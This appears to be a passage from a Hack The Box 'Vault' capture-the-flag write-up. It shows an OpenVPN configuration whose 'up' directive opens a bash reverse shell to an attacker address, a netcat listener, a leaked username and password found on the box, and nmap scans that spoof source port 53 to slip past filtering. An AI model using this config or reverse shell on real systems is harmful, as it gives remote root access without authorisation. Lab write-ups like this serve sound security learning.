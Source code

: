 ![VPN Configurator](https://kyuu-ji.github.io/htb-write-up/vault/vault_web-4.png)

In this [article from Tenable](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da), it is explained how to execute commands and get a reverse shell via **OpenVPN**.

Lets use the reverse shell and modify it accordingly:
```markdown
remote 192.168.122.1
nobind
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/9002 0<&1 2>&1&'"
```

This will build a VPN tunnel from _192.168.122.1_ to _192.168.122.4_ on port 9002.
So starting a listener on the host via `nc -lvnp 9022` and executing the VPN file by clicking on _"Update File"_ and the listener on the host and port 9002 starts a reverse shell session on _192.168.122.4_ as root.

### Enumerating 192.168.122.4

There are again the same home folders than before, but only _dave_ has one file in his directory called _ssh_ with some more credentials:
```markdown
dave
dav3gerous567
```

After enumerating the box, the IP address of _"The Vault"_ is found in _/etc/hosts_:
```markdown
192.168.5.2     Vault
```

This IP address does not respond to pings but the `ip route` exists:
```markdown
192.168.5.0/24 via 192.168.122.5 dev ens3
192.168.122.0/24 dev ens3  proto kernel  scope link  src 192.168.122.4
```

Maybe it does not respond to ICMP packets, but to other requests, so scanning for services with **Nmap**:
```markdown
nmap -Pn 192.168.5.2 -n
```
```markdown
PORT     STATE  SERVICE
53/tcp   closed domain
4444/tcp closed krb524
```

Even though the ports say "closed", they still respond to the TCP packets for these ports. By setting the source port to 53 on every request, another port scan can be done:
```markdown
nmap -Pn 192.168.5.2 -n --source-port 53
```
```markdown
PORT    STATE SERVICE
987/tcp open  unknown
```
